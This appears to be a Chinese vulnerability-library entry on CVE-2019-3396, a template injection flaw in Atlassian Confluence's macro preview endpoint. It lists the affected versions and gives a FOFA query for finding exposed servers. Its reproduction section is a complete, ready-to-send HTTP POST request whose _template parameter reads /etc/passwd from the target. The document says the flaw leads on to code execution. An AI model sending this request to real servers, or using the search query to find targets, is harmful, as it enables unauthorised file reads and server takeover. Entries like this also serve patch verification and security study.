

# Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

```
Atlassian Atlassian Confluence < 6.6.12
Atlassian Atlassian Confluence 6.7.0-6.12.2
Atlassian Atlassian Confluence < 6.13.3
Atlassian Atlassian Confluence < 6.14.2
```

## FOFA

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面



发送请求包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```